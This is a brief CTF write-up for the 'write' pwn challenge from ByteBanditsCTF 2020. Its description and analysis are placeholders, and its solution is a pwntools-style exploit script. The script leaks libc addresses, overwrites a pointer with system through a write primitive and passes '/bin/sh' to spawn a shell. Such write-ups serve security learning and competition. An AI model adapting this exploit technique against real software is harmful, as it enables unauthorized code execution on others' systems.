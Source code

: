 # ByteBanditsCTF

> Sat, 11 April 2020, 23:30 CST — Sun, 12 April 2020, 23:30 CST

## write
I will write it tomorrow ... 

### Description

> ..


### Attachment

[write](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/ByteBanditsCTF2020/pwn/write/write)

### Analysis

I will write it tomorrow ... 

### Solution

```python
ru('puts: ')
puts = eval(rc(14))
ru('stack: ')
stack = eval(rc(14))

libcbase = puts - libc.sym['puts']
info_addr('libcbase',libcbase)

ptr = libcbase+0x619f60 #0x239f68
info_addr('ptr',ptr)
system = libcbase+libc.sym['system']
info_addr('system',system)
rdi = libcbase+0x619968 #0x239968
info_addr('rdi',rdi)

sl('w')
sl(str(ptr))
sl(str(system))

sl('w')
sl(str(rdi))
sl(str(u64('/bin/sh\0')))

debug('b *$rebase(0x969)')
sl('q')
```


### More
